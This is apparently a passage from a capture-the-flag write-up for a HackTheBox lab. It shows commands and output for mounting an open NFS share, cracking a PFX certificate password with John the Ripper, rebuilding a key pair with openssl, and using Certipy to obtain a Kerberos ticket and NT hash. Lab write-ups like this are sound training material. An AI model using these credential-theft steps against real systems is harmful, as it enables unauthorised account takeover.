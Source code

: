 
## NFS Share & Certificates

**NFS is accessible, let's mount it:**

```bash
showmount -e 10.10.11.65
Export list for 10.10.11.65:
/helpdesk (everyone)
mkdir /tmp/helpdesk
sudo mount -t nfs 10.10.11.65:/helpdesk /tmp/helpdesk
ls -l /tmp/helpdesk
```
**Found files:**
- baker.crt
- baker.key
- clark.pfx
- lewis.pfx
- scott.pfx

**Cracking password for PFX:**
```bash
pfx2john clark.pfx > clark.hash
john --wordlist=/usr/share/wordlists/rockyou.txt clark.hash
```
Password: `ne*********`

**Unlocking baker.key**
```bash
openssl rsa -in baker.key -out baker.plain.key
```

**baker.key + baker.crt → pfx:**
```bash
sudo openssl pkcs12 -export -out baker.pfx -inkey baker.plain.key -in baker.crt
```

---

## Certipy authentication with baker.pfx

```bash
certipy auth -pfx baker.pfx -username d.baker -dc-ip 10.10.11.65

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'd.baker.ccache'
[*] Wrote credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b
```
Getting TGT, dumping hash, exporting .ccache:
```bash
export KRB5CCNAME=d.baker.ccache
```

---